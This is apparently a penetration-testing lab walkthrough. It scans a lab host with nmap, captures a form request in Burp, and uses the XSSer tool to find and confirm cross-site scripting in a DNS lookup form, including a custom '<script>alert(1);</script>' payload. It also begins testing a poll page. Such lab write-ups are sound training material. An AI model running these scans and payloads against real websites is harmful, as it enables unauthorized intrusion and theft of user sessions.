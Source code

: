 - Check you IP address and then target the IP adjacent to your IP address

```
root@attackdefense:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
36656: eth0@if36657: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.3/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
36659: eth1@if36660: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:28:7a:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.40.122.2/24 brd 192.40.122.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# nmap -sV 192.40.122.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-08-30 21:33 IST
Nmap scan report for target-1 (192.40.122.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:28:7A:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.63 seconds
```

Launch browser and visit the same IP address so we can see the webapp in this scenario our goal is to see if we will be able to run our own javascript

Once again we will launch the burp and see the request in proxy tab

```
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: 192.40.122.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.40.122.3/index.php?page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Connection: close
Cookie: PHPSESSID=a2fcdmitfdu5mpft8l8ac3spu6; showhints=1
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

target_host=google.com&dns-lookup-php-submit-button=Lookup+DNS
```

We will be using XSSER to see if the webapp is vulnerable to the cross site scripting and the command for that is `xsser --url "{CompleteUrlToTheSearchResult}" -p "{TheRequestDataFromBurpModifiedWithXSSInplaceOfSearchWord}"`

```
root@attackdefense:~# xsser --url "http://192.40.122.3//index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS"
===========================================================================

XSSer v1.8[2]: "The Hiv3!" - (https://xsser.03c8.net) - 2010/2019 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2023-08-30 21:39:11.857338
===========================================================================

[+] Target: 

 [ http://192.40.122.3//index.php?page=dns-lookup.php ]

---------------------------------------------

[!] Hashing: 

 [ 99cd6176b0b9a90124bfcd2d3dee85d1 ] : [ target_host ]

---------------------------------------------

[*] Trying: 

http://192.40.122.3//index.php?page=dns-lookup.php (POST: target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS)

---------------------------------------------

[+] Vulnerable(s): 

 [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]

---------------------------------------------

=============================================
[*] Injection(s) Results:
=============================================

 [ FOUND! ] -> [ 99cd6176b0b9a90124bfcd2d3dee85d1 ] : [ target_host ] -> [ ">PAYLOAD ]

==================================================
Mosquito(es) landed!
==================================================

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.40.122.3//index.php?page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 99cd6176b0b9a90124bfcd2d3dee85d1
[*] Payload: target_host=%22%3E99cd6176b0b9a90124bfcd2d3dee85d1&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! 
 --------------------------------------------------
```

If we want to test for all possible scripts we can attach a --auto flag at the end of the previous command. In this scenario the application seems to be vulnerable to all the possible outcomes.

```
xsser --url "http://192.40.122.3//index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --auto
```

```
[*] Final Results:
===========================================================================

- Injections: 1291
- Failed: 0
- Successful: 1291
- Accur: 100.0 %
```

Trying to run a custom payload and see if we can get the output for this we use the flag --Fp

```
root@attackdefense:~# xsser --url "http://192.40.122.3//index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1);</script>"
```

```
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.40.122.3//index.php?page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: b420eb041d822a94b298e38485ba4fc2
[*] Payload: target_host=%22%3Eb420eb041d822a94b298e38485ba4fc2&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[*] Final Attack: target_host=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS
[!] Status: XSS FOUND!
```

Even with the custom payload script we are able to get the output

Trying to see for another url that is of post in poll also similary we can use the --Fp script as well

`root@attackdefense:~# xsser --url "http://192.40.122.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=&user-poll-php-submit-button=Submit+Vote"`